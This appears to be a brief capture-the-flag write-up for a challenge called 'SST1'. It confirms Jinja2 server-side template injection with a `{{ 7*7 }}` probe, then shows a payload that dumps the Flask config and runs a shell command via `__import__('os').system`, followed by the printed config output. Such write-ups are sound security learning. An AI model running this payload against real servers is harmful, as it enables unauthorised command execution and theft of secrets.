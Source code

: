 # SST1 

Its a python server, so its most probably gonna be jinja2 

server side template injection . 
providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 

Now  I can begin crafting my payload 

input: 
```
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}

```

```
# dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```